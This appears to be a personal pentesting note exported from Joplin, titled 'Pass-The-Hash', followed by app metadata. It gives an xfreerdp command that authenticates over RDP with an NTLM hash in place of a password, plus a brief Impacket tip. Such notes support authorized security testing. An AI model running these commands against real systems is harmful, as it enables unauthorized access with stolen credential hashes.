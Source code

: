 3. Pass-The-Hash

## Impacket Scripts

insert as the 'password segment'

## RDP

use xfreerdp

The first hash = computer hash, the second hash is the NTLM hash

> `xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101`
> 
> `# If you have .RDP files`
> 
> xfreerdp connection.rdp /p:Pwd123! /f

id: 6600ab38b91a4e75aa7ceba9f0122487
parent_id: 81d25cba6cbd4c9dbd032847ce140a5d
created_time: 2022-01-30T12:00:28.595Z
updated_time: 2022-05-09T08:55:45.757Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T12:00:28.595Z
user_updated_time: 2022-05-09T08:55:45.757Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1